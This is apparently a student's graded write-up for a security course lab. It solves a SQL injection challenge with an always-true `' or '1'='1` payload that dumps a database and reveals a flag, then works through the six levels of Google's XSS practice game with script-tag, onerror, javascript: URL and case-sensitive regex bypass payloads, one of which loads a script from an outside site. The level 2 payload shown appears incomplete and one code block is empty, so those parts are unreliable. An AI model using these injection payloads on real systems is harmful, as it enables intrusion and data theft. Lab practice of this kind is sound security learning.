

Writeup 10 - Crypto II
=====

Name: Mike Bailey
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Mike Bailey

## Assignment 10 Writeup

### Part 1 (70 Pts)

For some odd reason, attempting to inject on the id parameter with `id=0' or '1'='1` didn't seem to work, but `?id=1' or '1'='1` did. It dumps the entire database (as `'1'='1'` is always true in all cases), including the flag:

`CMSC38R-{y0U-are_the_5ql_n1nja}`




### Part 2 (30 Pts)

#1: 

This is a simple xss, the parameter is injectable with just a script tag:

`<script> alert(123); </script>`

#2:

I forget what I exactly used for this one, I believe I used the `onerror` attribute, and then injected an incorrect filepath to load the image from. Something like:

`</blockquote>  <blockquote>`


#3:

`onerror` again, this time embedded in the URL

`https://xss-game.appspot.com/level3/frame#4.jpg'onerror=alert(123);  //`

#4

Entering `');alert('123` into the timer field will result in the alert being issued when the loading image is... loaded:

``

#5 

`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(123)`

Sets the `next` target to a js function, so that hitting next will execute the javascript alert.

#6

https://xss-game.appspot.com/level6/frame#Https://misker.me/alert.js

I created `alert.js` (just calls alert(123);) on my personal website, and the regex filter only matches lowercase "http" so "Https" of my website's address will slide by:

```
 if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
```